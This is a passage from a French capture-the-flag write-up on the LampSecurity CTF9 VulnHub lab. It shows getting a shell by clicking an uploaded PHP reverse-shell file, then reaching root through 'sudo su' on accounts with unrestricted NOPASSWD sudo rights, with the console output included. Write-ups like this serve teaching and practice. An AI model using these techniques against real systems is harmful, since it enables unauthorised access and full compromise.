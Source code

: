 Un clic sur le fichier [php-reverse-shell.php](files/php-reverse-shell.php) fraîchement uploadé, et un shell apparaît !

![Affichage de l'image CTF9_admin_upload_reverseshell.png](images/CTF9_admin_upload_reverseshell.png)

## Mauvaise gestion des privilèges d'administration via le fichier /etc/sudoers

L'élévation de privilèges est un jeu d'enfant ; en effet, la plupart des comptes [disposent de privilèges](https://doc.ubuntu-fr.org/sudoers) très permissifs, et sont autorisés à exécuter toutes les commandes via sudo. Il est alors possible de passer root avec la commande ```sudo su``` et le tour est joué. Les quatre comptes incriminés, c'est-à-dire ceux de Justin, de Bob, d'Alice et d'Eve sont concernés ; ils appartiennent effectivement au groupe ```wheel```.

```console
[justin@lampseclabs ~]$ id
uid=500(justin) gid=500(justin) groups=500(justin),10(wheel),100(users)

[justin@lampseclabs ~]$ sudo -l
Matching Defaults entries for justin on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User justin may run the following commands on this host:
    (ALL) NOPASSWD: ALL

[justin@lampseclabs ~]$ sudo su -
[root@lampseclabs ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

Encore un immense merci à [madirish2600](https://www.vulnhub.com/author/madirish2600,75/) pour toutes ces chouettes VM LampSecurity !
